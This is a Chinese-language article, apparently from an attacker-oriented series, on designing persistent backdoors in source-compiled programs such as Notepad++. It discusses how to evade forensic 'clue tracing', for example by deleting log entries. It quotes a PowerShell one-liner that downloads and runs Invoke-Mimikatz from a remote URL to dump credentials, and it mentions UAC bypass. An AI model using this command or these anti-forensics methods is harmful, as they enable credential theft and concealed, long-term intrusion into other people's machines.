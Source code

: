 **前者的话：**从第三季开始引入段子，让本枯燥的学术文章，也变得生动有趣。

第二季的Demo遵循人性五条来设计，回忆这其中五条：

**1：攻击方与防御方的本质是什么？**
增加对方的时间成本，人力成本，资源成本（不限制于服务器资源），金钱成本。  

**2：安全公司的本质是什么？**
盈利，最小投入，最大产出。  

**3：安全公司产品的本质是什么？**
能适应大部分客户，适应市场化，并且适应大部分机器。（包括不限制于资源紧张，宽带不足等问题的客户）  

**4：安全人员的本质是什么？**
赚钱，养家。买房，还房贷。导致，快速解决客户问题（无论暂时还是永久性解决），以免投诉。  

**5：对接客户的本质是什么？**
对接客户也是某公司内安全工作的一员，与概念4相同。  

**6:线索排查与反线索排查**
那么这个demo离可高级可持续性渗透后门还有一段距离，这里引入第六条“**线索排查**”与“**反线索排查**”，在第二季的demo中，它生成了一个名为micropoor.txt的文件，如果经验丰富的安全人员可根据时间差来排查日记，demo的工作流程大致是这样的，打开notepad++，生成micropoor.txt，写入内容，关闭文件流。根据线索排查，定位到notepad++，导致权限失控。

在线索排查概念中，这里要引入“ABC”类线索关联排查，当防御者在得到线索A，顺藤到B，最后排查到目标文件C，根据五条中的第一条，demo要考虑如何删除指定日志内容，以及其他操作。来阻止ABC类线索关联排查。

**不要思维固死在这是一个nontepad++后门的文章，它是一个面向类后门，面向的是可掌握源码编译的类后门。**同样不要把思维固定死在demo中的例子，针对不同版本的NT系统，完全引用“powershell IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/clymb3r/PowerShell/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1');Invoke-Mimikatz”而关于bypass
UAC，已经有成熟的源码。或发送至远程或是写在本地的图片里，不要让知识，限制了后门的想象。这也正是第一季所说的：一个优秀的Microdoor是量身目标制定且一般不具备通用性的。是的，**一般不具备通用性**。

观看目前文章的一共有2类人，一类攻击方，一类防守方。假设一个场景，现在摆在你面前有一台笔记本，并且这台笔记本有明确的后门，你的任务，排查后门。我想所有人都会排查注册表，服务，端口，进程等。因为这些具备通用性，也同样具备通用性排查手段。

临近文章结尾，第三次引用：**在后门的进化对抗中，rootkit也发生了变化，最大的改变是它的系统层次结构发生了变化。**如果彻底理解了这段话。那么就要引用王健X爸爸的一句话：先定个小目标，控它个1825天。

/*
段子
*/

奈何厂商不重视后渗透攻击与持久性攻击，文章的结尾引用马X爸爸的一句话：厂商不改变，我们就改变厂商。

>   Micropoor

